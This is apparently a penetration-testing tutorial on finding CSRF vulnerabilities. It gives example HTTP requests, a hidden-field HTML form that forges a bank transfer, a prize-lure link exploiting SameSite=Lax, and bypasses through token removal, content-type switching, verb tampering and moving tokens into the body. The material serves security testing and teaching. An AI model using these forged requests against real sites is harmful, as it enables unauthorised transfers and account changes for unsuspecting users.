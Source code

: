 **Methodology of Finding CSRF Vulnerabilities** with detailed explanations and practical examples.

---
## ✅ **1. Understanding CSRF (Cross-Site Request Forgery)**
**CSRF** is a type of web attack where a malicious website tricks a user’s browser into sending an unwanted request to a different website where the user is authenticated.
- **Goal of CSRF Attack**: Perform state-changing operations without the user’s consent.    
- **Examples of State-Changing Operations**:    
    - Changing account details        
    - Transferring funds        
    - Modifying passwords
---
## ✅ **2. Methodology to Find CSRF Vulnerabilities**
### **Step 1: Identify State-Changing Requests**
- Capture all requests using a proxy tool like **Burp Suite** or **OWASP ZAP**.    
- Focus on **POST** requests, especially those involving actions like:    
    - Account management        
    - Transactions        
    - Form submissions        
- State-changing operations typically involve cookies for authentication.

**Example Request**:
```
POST /transfer HTTP/1.1
Host: bank.com
Cookie: session=abcd1234
Content-Type: application/x-www-form-urlencoded

amount=1000&to_account=5678
```

👉 **This is a candidate for CSRF testing.**

---

### **Step 2: Create an Exploit Code**
- An attacker might craft a malicious HTML form to exploit the CSRF vulnerability.
**Example CSRF Exploit**:
```
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to_account" value="5678">
  <input type="submit" value="Submit Transaction">
</form>
```
👉 **If a logged-in victim clicks this form, it will execute the transaction without their knowledge.**

---
### **Step 3: Bypass the Security Mechanisms**
#### 🔎 **Check for CSRF Protection**
- Inspect for CSRF tokens using browser developer tools or intercept tools.
- If a token is missing, it’s a strong indication of vulnerability.   
---
## ✅ **3. Important Bypass Techniques for CSRF**
### **A. SameSite Cookie Flag**
- **SameSite** prevents cross-origin requests, protecting against CSRF.    
- Check the `Set-Cookie` response header:
`Set-Cookie: session=abcd1234; SameSite=Lax`
- **Bypass Possibilities**:    
    - **SameSite=None**: Vulnerable to CSRF without restrictions.        
    - **SameSite=Lax**: Allows CSRF via top-level navigations using `GET` requests.        
    - **SameSite=Strict**: Prevents CSRF even on top-level navigations.       

👉 **Example Bypass** (If `SameSite=Lax`):
`<a href="https://bank.com/transfer?amount=1000&to_account=5678">Click here to win a prize!</a>`

---
### **B. JSON Requests**
- JSON endpoints often use `application/json` content-type.    
- If the API accepts multiple content types, try using:
    `Content-Type: application/x-www-form-urlencoded`
- Some endpoints may lack token validation for non-JSON content.

👉 **Example Request Tampering**:
```
POST /api/update-profile HTTP/1.1
Host: website.com
Content-Type: application/json

{"email": "attacker@example.com"}
```

👉 **Change to**:
```
POST /api/update-profile HTTP/1.1
Host: website.com
Content-Type: application/x-www-form-urlencoded

email=attacker@example.com
```

---
### **C. CSRF Token Manipulation**
- Try bypassing token validation by:    
    - Removing the token        
    - Submitting an empty token        
    - Using your own valid token        
👉 **Example 1 - Remove the Token**:
`POST /transfer HTTP/1.1 
`amount=1000&to_account=5678`

👉 **Example 2 - Send Empty Token**:
`POST /transfer HTTP/1.1 
`amount=1000&to_account=5678&csrf_token=`

👉 **Example 3 - Use Valid Token**:
`POST /transfer HTTP/1.1 
`amount=1000&to_account=5678&csrf_token=YOUR_VALID_TOKEN`

---
### **D. Verb Tampering**
- Some APIs may allow request method tampering.   

👉 **Example**:
`POST /change-email HTTP/1.1 
`email=attacker@example.com&csrf_token=valid_token`

👉 Try converting it to a `GET` request:
`GET /change-email?email=attacker@example.com&csrf_token=valid_token HTTP/1.1`

---
### **E. CSRF Token in Headers vs. Body**
- Tokens are often sent in headers like this:
`POST /payment HTTP/1.1 
`X-CSRF-Token: abc123`
- Some backends may fail to validate if the token is moved to the body instead.
👉 **Bypass Example**:
```
POST /payment HTTP/1.1
Content-Type: application/x-www-form-urlencoded

amount=1000&X-CSRF-Token=abc123
```

---

## ✅ **4. Additional Tips for Effective CSRF Testing**
1. **Test Different User Roles**:    
    - Admins may have actions that are more impactful when exploited using CSRF.
2. **Check Mobile and API Endpoints**:    
    - Mobile apps often lack CSRF protections.        
3. **Use Burp Suite Extensions**:    
    - **CSRF PoC Generator** can create test payloads quickly.
---
## ✅ **5. Conclusion**
- CSRF vulnerabilities arise when state-changing requests lack proper CSRF token validation.    
- Methods to exploit and bypass CSRF protections include:    
    - Changing request content types        
    - Manipulating CSRF tokens        
    - Exploiting SameSite flag misconfigurations        
- Always generate proof-of-concept (PoC) code to demonstrate the vulnerability effectively.
